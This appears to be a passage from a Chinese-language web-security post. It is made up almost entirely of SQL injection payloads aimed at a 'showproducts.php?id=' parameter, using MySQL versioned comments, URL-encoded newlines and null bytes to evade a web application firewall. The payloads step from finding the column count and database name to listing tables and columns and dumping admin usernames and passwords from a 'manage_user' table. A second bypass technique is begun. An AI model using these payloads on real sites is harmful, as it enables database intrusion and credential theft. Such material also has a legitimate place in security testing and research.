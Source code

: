 ```
#找数字列
showproducts.php?id=-13/\*!10444union\*//\*!10444%23\*/%0a/\*!10444select\*/1,2,3,4,5,6,7,8,9,10
#数据库名
showproducts.php?id=-13/\*!10444union\*//\*!10444%23\*/%0a/\*!10444select\*/1,database%23%0a(),3,4,5,6,7,8,9,10

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsITCQlLqpuiaX1ZGjsH88vcIONlpKWicTwibhvwWfcW6LMndCMbIRCI4eQ/640?wx_fmt=png)

```
#表名
showproducts.php?id=-13/\*!10444union\*//\*!10444%23\*/%0a/\*!10444select\*/1,group\_concat(table\_name),3,4,5,6,7,8,9,10 from information\_schema.tables where table\_schema=0x7879636d73

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHs6YRWpU2gviayaAMELwXAbxwGGVnKROFib2RSQVAmiaVBNPLj1jHLmiaMNQ/640?wx_fmt=png)

```
#字段名
showproducts.php?id=-13/\*!10444union\*//\*!10444%23\*/%0a/\*!10444select\*/1,group\_concat(column\_name),3,4,5,6,7,8,9,10 from information\_schema.columns where table\_name=0x6d616e6167655f75736572

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsfRhql6GV3jDC39VcgA09F69jJXcWFjhl2HGCxqoqrU88icnuK4OicdXA/640?wx_fmt=png)

```
#字段内容
showproducts.php?id=-13/\*!10444union\*//\*!10444%23\*/%0a/\*!10444select\*/1,group\_concat(m\_name,m\_pwd),3,4,5,6,7,8,9,10 from manage\_user

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsLc5bIADibWP7DJcJ8StfWVKBvEqzHXBFjItQjYXlnPBVltgX21m7z4w/640?wx_fmt=png)  

### **第二种 union/_%00_/%23a%0A/_!/_!select 1,2,3\*/;%23**

```
#字段数
?id=1/\*%00\*/%23a%0A/\*!/\*!order\*/+/\*%00\*/%23a%0A/\*!/\*!by+3\*/--+

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsKwnABibpicp0DVK32rG9mz138bGYV4FEVoL5hncPWAjIEhWWK0Jj8ngw/640?wx_fmt=png)  

```
#数字列
?id=-1 union/\*%00\*/%23a%0A/\*!/\*!select 1,2,3\*/;%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsN8671WezyzzX4Gn8b2lJRRpNJYGrn53ibVT4VImYRQtfPjGat6CKlBw/640?wx_fmt=png)

